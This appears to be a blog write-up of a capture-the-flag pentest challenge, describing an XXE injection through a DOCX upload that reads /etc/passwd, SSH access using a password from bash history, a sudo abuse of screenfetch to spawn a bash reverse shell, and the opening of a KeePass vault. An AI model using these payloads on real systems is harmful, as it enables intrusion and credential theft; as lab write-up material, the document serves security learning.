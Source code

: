 ```yaml
---
layout: post
title: 'DGSE Hacks: Pentest (M4) Challenges'
date: 2025-04-20
categories: [docs]
tag: [dgse mission, dgse, mission, dgse.pro.root-me, root-me, root me, hacking dgse,pentest, WebExploitation, RootMe, AIHacking, DGSE]
---
```


##  Pentest (Mission 4)
During testing of the file upload functionality on the target website, I discovered that uploading a DOCX document resulted in the disclosure of a victim ID associated with the uploaded file. 

![webiste-dgse](/assets/webiste-dgse.png "webiste-dgse")

The server responded with a victim ID linked to the uploaded DOCX file, so the first thing to investigate was whether this ID was embedded in the document's metadata

(about the DOCX file based on your initial findings from the first AI mission)

![upload](/assets/upload.png "upload")

using exiftool, we confirmed that the Victim ID is exposed in the document's metadata :
![exiftool](/assets/exiftool.png "exiftool")

I examined the DOCX file structure by:
- Unzipping the DOCX (since it's a ZIP archive) to access its internal files
- Identified that the file (docProps/app.xml)  contains a VictimID field in its XML structure
- The potential for XML External Entity (pasword) processing vulnerabilities
- i edit file :

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Properties [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties">
  <VictimID>&xxe;</VictimID>
</Properties>
```
- then zip it now and upload it in website :
![zip](/assets/zip.png "zip")

got it : 
![xxe](/assets/xxe.png "xxe")

Now, XXE exists on this site. I successfully read /etc/passwd after spending a lot of time searching for readable files to gain access to the machine. 

Based on /etc/passwd, I found the user: `document-user`. 

Let’s read their command history at `/home/document-user/.bash_history`.

![pasword](/assets/pasword.png "pasword")

scan ports : 

![scan](/assets/scan.png "scan")

And we can see port 22222 is used for SSH. Let’s try to connect via SSH :


![session](/assets/session.png "session")

The user executor is allowed to run the following command as the user administrator without being prompted for a password:
```bash
/usr/bin/screenfetch
```

screenfetch is a bash script that collects and displays system information in a visually appealing way, 
screenfetch allows setting arbitrary variables with -o , so we used to execute arbitraty code 'reverse shell' 
```bash
sudo -u administrator /usr/bin/screenfetch -o 'fulloutput=$(bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1")'
```

![poc](/assets/poc.png "poc")

In home Folder :
```bash 
administrator@document-station:~$ ls
ls
logo.jpg
vault.kdbx
```
We transferred these two files—`logo.jpg` and `vault.kdbx`—to my machine : `base64 copy-paste transfer`

i try to get hash of kdbx but its version 4  :
```bash
➜  shares keepass2john vault.kdbx 
! vault.kdbx : File version '40000' is currently not supported!
```
After a long time cracking and searching for any possible key or backup, I tested `logo.jpg as the encryption key for the KDBX database—and it worked!` (LOL) 

![kdbx](/assets/kdbx.png "kdbx")

and boom get flag from `OPERATIONS NOTES` :

![flag](/assets/flag.png "flag")

TY FOR READING !